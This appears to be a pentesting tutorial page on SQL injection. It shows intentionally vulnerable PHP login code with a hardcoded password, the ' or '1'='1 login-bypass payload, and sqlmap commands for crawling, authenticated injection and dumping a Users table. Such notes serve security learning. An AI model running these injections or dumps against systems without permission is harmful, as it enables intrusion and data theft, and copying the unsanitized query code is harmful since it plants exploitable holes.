

repository: gandhi-taha/security · page: attacking_web_applications/sql-injections/index.html · generator: mkdocs

# SQL-injections

## Tldr

```
# Post
./sqlmap.py -r request.txt -p username

# Get
sqlmap -u "http://192.168.1.101/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://192.168.1.101 --dbms=mysql --crawl=3
```

## How does sql-injections work?

So we have a website that is written in php. We have a login functionality, where the code looks like this:

```php
mysql_connect("localhost", "pelle", "mySecretPassowrd") or die(mysql_error());

mysql_select_db("myHomepage");

if ($_POST['uname'] != ""){
	$username = $_POST['username'];
	$password = $_POST['password'];
	$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
	$result = mysql_query($query);
	$row = mysql_fetch_array($result);
}
```

So the user input is not filtered or sanitized in any way. Which means that what the users puts in in the login-form will be executed my mysql. So just like in xss-injections we just try to escape the input field to be able to execute sql-commands. So if we input the following into the user-field and password-field in the login:

```
whatever' or '1'='1
whatever' or '1'='1
```

The query will look like this:

```
$query = "SELECT * FROM users WHERE username = 'whatever' OR '1'='1' AND password='whatever' OR '1'='1'";
```

Since they both become true the database will retrieve all users and we will be able to bypass the login.

If you know the username you could of course use that and then only inject on the password parameter.

```
$query = "SELECT * FROM users WHERE username = 'admin' AND password='whatever' OR '1'='1'";
```



## SQLmap

Sqlmap is a great tool to perform sql-injections.
Here is the manual.
https://github.com/sqlmapproject/sqlmap/wiki/Usage

### Using sqlmap with login-page

So you need to authenticate before you can access the vulnerable paramter.

You just cature the request using burp suite, and save the requiest in a file. Then your run

```
sqlmap -r request.txt
```

Since the cookie is saved in the reuqest sqlmap can do it.

### Crawl a page to find sql-injections

```
sqlmap -u http://example.com --crawl=1
```

### Dumping a database or table

Here we are dumping the database Webapp and the table Users.

```
sqlmap -r request.txt -p username --dbms=mysql --dump -D Webapp -T Users
```

### Use proxy

```
--proxy="http://192.2.2.2.2:1111"
```

**Proxy credencials**

```
--proxy-cred="username:password"
```
